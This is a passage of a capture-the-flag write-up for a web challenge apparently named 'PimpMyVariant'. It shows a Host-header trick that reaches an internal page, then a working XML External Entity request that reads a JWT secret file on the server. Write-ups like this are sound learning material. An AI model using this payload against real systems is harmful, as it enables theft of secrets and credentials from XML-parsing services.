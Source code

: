 Request `new` with `Host: 127.0.0.1` returns:

```html
<html><head>
	<link rel="stylesheet" href="./dark-theme.css">
	<title>PimpMyVariant</title>
</head><body>
	<h1>New variant</h1>


<form method="post" enctype="application/x-www-form-urlencoded" id="variant_form">
	Guess the next variant name : <input type="text" name="variant_name" id="variant_name" placeholder="inso-micron ?" /><br />
	<input type="submit" name="Bet on this" />
</form>
<script type="text/javascript">
document.getElementById('variant_form').onsubmit = function(){
	var variant_name=document.getElementById('variant_name').value;
	postData('/api', "<?xml version='1.0' encoding='utf-8'?><root><name>"+variant_name+"</name></root>")
		.then(data => {
			window.location.href='/';
		});
	return false;
}

async function postData(url = '', data = {}) {
	return await fetch(url, {
		method: 'POST',
		cache: 'no-cache',
		headers: {
			'Content-Type': 'text/xml'
		},
		redirect: 'manual',
		referrerPolicy: 'no-referrer',
		body: data
	});
}
</script>

</body></html>
```

From this page, we can get a new endpoint that accepts XML. With the hint where there is a JWT secret at `/www/jwt.secret.txt`, we can craft an XML External Entity to read the file.

```
POST /api HTTP/1.1
Content-Type: text/xml
Host: 127.0.0.1
Connection: close
Content-Length: 139

<?xml version='1.0' encoding='utf-8'?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///www/jwt.secret.txt"> ]>
<root><name>&xxe;</name></root>


HTTP/1.1 302 Found
Server: nginx
Date: Sun, 30 Jan 2022 02:50:42 GMT
Content-Type: text/xml;charset=UTF-8
Transfer-Encoding: chunked
Connection: close
```